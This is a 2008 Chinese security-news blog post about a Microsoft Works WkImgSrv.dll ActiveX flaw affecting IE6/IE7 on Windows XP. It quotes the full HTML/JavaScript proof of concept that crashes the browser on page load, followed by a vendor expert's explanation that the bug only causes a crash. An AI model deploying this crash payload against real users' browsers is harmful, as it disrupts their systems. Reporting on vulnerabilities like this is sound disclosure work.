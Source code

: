 ```yaml
---
title: Windows组件0Day漏洞　通杀IE6与IE7浏览器
description: 中国IT实验室4月21日报道：近日收到网友发来的邮件，反映了一个Windows0Day漏洞。并在其博客中给出了相关代码。[0day]MicrosoftWorks7WkImgSrv.dllcrashPOC，dll版本7.03.0616.0，IE7+WindowsXPSP2测试通过。
date: 2008-04-23 08:51:42
category: 漏洞信息
tags: ['0day', 'Windows']
post_id: 460
alias: Windows-Microsoft-Works-0day
ViewNums: 4847
---
```


中国IT实验室4月21日报道：近日收到网友发来的邮件，反映了一个[Windows](/tags/Windows) [0Day](/tags/0day)漏洞。并在其博客中给出了相关[代码](/tags/%E6%BA%90%E7%A0%81)。
```
[0day]Microsoft Works 7 WkImgSrv.dll crash POC，dll版本7.03.0616.0，IE7+Windows XP SP2 测试通过。

[html]
[head]
[title]Microsoft Works 7 WkImgSrv.dll crash POC[/title]
[script language="JavaScript"]
 function payload() {
 var num = -1;
 obj.WksPictureInterface = num;
 }
 [/script]
[/head]
[body onload="JavaScript: return payload();"]
[object classid="clsid:00E1DB59-6EFD-4CE7-8C0A-2DA3BCAAD9C6" id="obj"]
[/object]
[/body]
[/html]
```
与金山专家李铁军联系，得到了珠海研发中心的回复，如下：

近几天网络上流传着一个传说为IE 0DAY的POC代码，在Windows XP系统环境下通杀了IE6和IE7，其它系统并未经过测试。其实这个[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)并不是存在于IE，而是Microsoft Works的组件被挖掘出漏洞，部分的Windows XP预装了Microsoft Works，所以就出现了过全补丁系统的漏洞（如华硕易PC 就预装了Microsoft Works）。这段攻击代码会让浏览器崩溃，目前尚不能因此传播[恶意软件](http://www.virus-info.cn//tags/%E6%B5%81%E6%B0%93%E8%BD%AF%E4%BB%B6)。

